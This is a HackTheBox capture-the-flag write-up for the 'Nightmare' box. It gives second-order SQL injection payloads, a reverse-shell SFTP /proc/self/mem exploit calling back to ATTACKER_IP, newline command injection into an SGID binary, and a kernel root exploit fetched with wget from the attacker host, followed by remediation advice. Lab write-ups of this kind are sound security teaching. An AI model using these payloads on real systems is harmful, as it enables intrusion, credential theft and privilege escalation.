






# HackTheBox — Nightmare (Insane)

> **Second-Order SQLi → SFTP `/proc/self/mem` RCE → Kernel Root**

| | |
|---|---|
| **Box** | Nightmare |
| **OS** | Linux (Ubuntu 16.04) |
| **Difficulty** | Insane |
| **Authors** | decoder & stefano118 |
| **Skills** | Second-order SQL injection · Misconfigured OpenSSH SFTP (Jann Horn `/proc/self/mem`) · Reversing a 64-bit SGID binary · Linux kernel exploitation (CVE-2017-1000112) |

Nightmare is one of the most restriction-heavy boxes on HackTheBox. Nothing is handed to you: the web app looks trivial but hides a **second-order SQL injection**, the SSH service is a read-only SFTP with no shell, the filesystem fights you at every write, and root needs a hand-modified kernel exploit. This writeup walks the full chain and ships a clean **Python 3 rewrite** of the classic SECFORCE SFTP exploit that works on modern Kali/pwntools.

---

## TL;DR — Attack Chain (PTES-mapped)

1. **Recon** — `nmap` → 80/tcp Apache, 2222/tcp OpenSSH
2. **Vuln Analysis** — NOTES web app → second-order SQLi in `notes.php`
3. **Exploitation (web)** — Dump `sysadmin.users` → plaintext creds incl. `ftpuser:@whereyougo?`
4. **Foothold** — SSH/SFTP has no TTY → abuse the OpenSSH `/proc/self/mem` misconfig with a custom Python 3 exploit → reverse shell as `ftpuser`
5. **Privesc → decoder** — SGID binary `/usr/bin/sls` → newline (`-b`) command injection → read `user.txt`
6. **Privesc → root** — CVE-2017-1000112 compiled static, `lsb-release` trick, run as `ftpuser` → root

---

## 1. Reconnaissance

```bash
nmap -p- --min-rate 2000 -T4 TARGET_IP -oN allports.txt
nmap -p80,2222 -sC -sV TARGET_IP -oN services.txt
```

Only two ports:

```
80/tcp   open   http   Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open   ssh    OpenSSH (protocol 2.0)   # non-standard port, old custom 32-bit banner
```



---

## 2. Web Enumeration

The site on `:80` is a minimalist **NOTES** application with a login (`index.php`) and a registration page (`register.php`).

```bash
gobuster dir -u http://TARGET_IP/ -w /usr/share/wordlists/dirb/common.txt -x php
```

```
/index.php       (login)
/register.php    (register)
/notes.php       (post-login, where notes are listed)
/documents/      (dante.txt, index.php)
/secret/         (download.php)   # LFI-looking but basename() neutralises it
/inc/            (utils.php -> DB creds: 'notes':'NouTes')
```

`/secret/download.php` looks like an LFI but `basename()` kills directory traversal — a deliberate rabbit hole.

| The NOTES login page | The registration page |
|---|---|
|  |  |

*"Abandon all hope, you who enter here." Registration is where we plant the second-order SQLi payload as our username.*

---

## 3. Second-Order SQL Injection

The injection is **not** in the login or register query — those use prepared statements. It's in the notes listing on `notes.php`:

```php
// notes.php  (vulnerable query)
$query = $pdo->prepare(
  "SELECT n.title, n.text FROM notes n
   INNER JOIN users u ON (u.id=n.user)
   WHERE u.username=('$_SESSION[user]') ORDER BY n.id DESC");
```

`$_SESSION['user']` is the username you registered with, inserted **unsanitised** into a second query. So: register a username that is a SQL payload, log in, and the result renders in the notes list. Classic second-order SQLi.

Column count (note the `')` to break out of `WHERE u.username=('...')`):

```sql
Register username:   a') UNION SELECT 1,2-- -
```

Two columns; column 2 is reflected. Dump the schema and the juicy table:

```sql
a') UNION SELECT 1,group_concat(DISTINCT table_schema) FROM information_schema.tables-- -
   -> information_schema, notes, sysadmin

a') UNION SELECT username,password FROM sysadmin.users-- -
```

The `sysadmin.users` table is padded with decoy `testN:password` rows — filter them out (`WHERE password != md5('password')`) to reveal the real, plaintext credentials:

```
admin          : nimda
cisco          : cisco123
adminstrator   : Pyuhs738?183*hjO!
root           : HasdruBal78
decoder        : HackerNumberOne!
ftpuser        : @whereyougo?        <-- the one that matters
...
```



---

## 4. The SFTP Wall — and the `/proc/self/mem` Exploit

`ftpuser:@whereyougo?` authenticates on `2222`, but there is no shell:

```bash
ssh -p 2222 ftpuser@TARGET_IP     # connects, no TTY, drops you nowhere
sftp -P 2222 ftpuser@TARGET_IP    # works — but read-only, can't write files
```

`/etc/passwd` tells the story:

```
ftpuser:x:1002:1002::/:/usr/local2/libexec/sftp-server
```

`ftpuser`'s login shell **is** the SFTP server binary — a custom, read-only OpenSSH `sftp-server`. You can browse the whole filesystem but can't write anything to disk.

This is the exact scenario for **Jann Horn's OpenSSH ≤ 6.6 SFTP misconfiguration** (SECFORCE PoC): the SFTP user can open `/proc/self/mem` read-write. Read-only mode blocks *creating* files, but not *writes* to the already-open `/proc/self/mem` handle — so we overwrite the server's entire stack with a `ret`-slide ending in `system(payload)`.

### The Python 3 exploit

The original SECFORCE PoC is Python 2. The modernised Python 3 (pwntools-based) version used here is in [`sftp-exploit.py`](sftp-exploit.py) — clean logging, `fit()`-built stack, both i386/amd64 ROP handling.

**Configure the addresses at the top before running:**

```python
host   = "TARGET_IP"   # the TARGET (your Nightmare instance — changes every spawn)
port   = 2222             # SFTP port
lhost  = "ATTACKER_IP"   # YOUR attacker IP   ->   ip addr show tun0
lport  = 443              # callback port — MUST be 443 (outbound is filtered)
```

**Run it (two terminals):**

```bash
nc -lvnp 443              # terminal 1 — listener
python3 sftp-exploit.py   # terminal 2 — exploit
```

> **💡 pwntools tip:** on modern Kali/Python the script prints `[!] Could not populate PLT: No module named 'unicorn'` — ignore it, the exploit still works. `unicorn` is only used for PLT emulation (not needed here) and is the one dependency that fails to build on new systems (`error: ... No such file or directory: 'cmake'`). You don't need a full pwntools install — `paramiko` + `pyelftools` is enough.

When the stack write crashes the server, the smashed return address slides into `system(payload)` → reverse shell as `ftpuser`:

| Exploit run | Shell caught |
|---|---|
|  |  |

```bash
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
ftpuser@nightmare:/$ id
uid=1002(ftpuser) gid=1002(ftpuser) groups=1002(ftpuser)
ftpuser@nightmare:/$ uname -a
Linux nightmare 4.8.0-58-generic #63~16.04.1-Ubuntu SMP ... x86_64 GNU/Linux
```

*"SSH Connection was forcefully closed!" is the success signal.*

---

## 5. ftpuser → decoder (`user.txt`): the SGID `sls` binary

`user.txt` lives in `/home/decoder/` and is only readable by the `decoder` group. Hunt for decoder-owned SGID binaries:

```bash
find / -perm -2000 -group decoder 2>/dev/null
# -> /usr/bin/sls
```

`sls` is a 64-bit, SGID-`decoder` "custom ls". Reversing it (`strings`/Ghidra/`objdump`) shows it builds `"/bin/ls " + argv` and passes it to `system()`, with a filter:

- Blacklisted chars: `` | ` & > < ' " \ [ ] { } ; `` and the substring `$(`
- Newline (`\n`) is allowed **only** when the `-b` flag is set

Since `;` is blocked but newline isn't, a **newline is our command separator**, and because `sls` is SGID `decoder`, the injected command runs with the `decoder` group:

```bash
/usr/bin/sls -b "$(printf '\n/bin/sh')"
# or, in bash:
/usr/bin/sls -b $'\n/bin/sh'
$ id
uid=1002(ftpuser) gid=1002(ftpuser) egid=1001(decoder) groups=1001(decoder),1002(ftpuser)
$ cat /home/decoder/user.txt
REDACTED_USER_FLAG        # (flag is per-spawn)
```



---

## 6. decoder → root: CVE-2017-1000112

Kernel: `4.8.0-58-generic` (Ubuntu 16.04 xenial) → **CVE-2017-1000112** (xairy PoC). Three obstacles make this the "insane" part:

**(a) No compiler on the box + glibc mismatch.** `gcc` is denied, and a dynamically-linked binary built on modern Kali throws `GLIBC_2.34 not found`. Compile **static** on the attacker:

```bash
gcc poc.c -o exploit -static -pthread
```

**(b) `/etc/lsb-release` is missing**, so `detect_versions()` fails. Patch the PoC to read it from a writable path, and drop a matching file:

```c
// poc.c
read_file("/home/decoder/test/lsb-release", ...);
```
```ini
# lsb-release
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.3 LTS"
```

**(c) `/tmp` is `noexec`.** You can only execute from `/home/decoder/test` (writable by the `decoder` group). Stage the files there over HTTP:

```bash
# attacker
python3 -m http.server 80
```
```bash
# target (decoder-group shell can write /home/decoder/test)
cd /home/decoder/test
wget -q http://ATTACKER_IP:80/exploit     -O /home/decoder/test/r
wget -q http://ATTACKER_IP:80/lsb-release -O /home/decoder/test/lsb-release
chmod +x /home/decoder/test/r
```

> **⚠️ `Text file busy`?** A previous run still holds the file — use a fresh filename (`-O .../r`) and/or kill stale processes.

**The key gotcha — run it as `ftpuser`, NOT decoder.** Inside the `sls` decoder shell the user-namespace setup fails:

```
[-] write_file(/proc/self/set_groups): Permission denied
```

Drop the decoder egid (back to the plain `ftpuser` shell, or `newgrp ftpuser`) and run it:

```bash
newgrp ftpuser            # id must show gid=1002(ftpuser), no decoder egid
/home/decoder/test/r
```

```
[.] kernel version '4.8.0-58-generic' detected
[~] done, versions looks good
[.] checking SMEP and SMAP         -> [~] done, looks good
[.] setting up namespace sandbox   -> [~] done
[.] KASLR bypass enabled, getting kernel addr -> [~] kernel text: ffffffffa0200000
[.] executing payload ...
[+] got r00t ^_^
root@nightmare:/home/decoder# cat /root/root.txt
REDACTED_ROOT_FLAG      # (flag is per-spawn)
```



---

## 7. Why it was INSANE (lessons)

- The injection is **second-order** — the payload is stored at registration and only fires on a different page.
- The foothold needs **memory corruption without touching disk** — the SFTP server is read-only, and the trick is that `/proc/self/mem` writes bypass that.
- Every "obvious" step is gated: `/secret` LFI is neutralised, `/tmp` is `noexec`, there's no compiler, `/etc/lsb-release` is missing, and the kernel exploit only works from the right group context.

## 8. Remediation

- **Web:** never build SQL from stored user input — use parameterised queries everywhere, including second-order sinks.
- **SFTP:** upgrade OpenSSH; never allow SFTP users to open `/proc/self/mem`; chroot SFTP-only accounts properly (`ChrootDirectory`, `ForceCommand internal-sftp`).
- **Local:** remove needless SGID binaries that call `system()`; patch the kernel (CVE-2017-1000112 was fixed in 2017); set `kernel.unprivileged_userns_clone=0`.

---

> ⚠️ **Flags are regenerated per spawn** — the values shown are from one instance and won't validate on yours. Capture your own.

## Repo contents

| File | Description |
|---|---|
| `README.md` | This writeup |
| `sftp-exploit.py` | Python 3 SECFORCE `/proc/self/mem` SFTP exploit |
| `screenshots/` | Walkthrough screenshots |
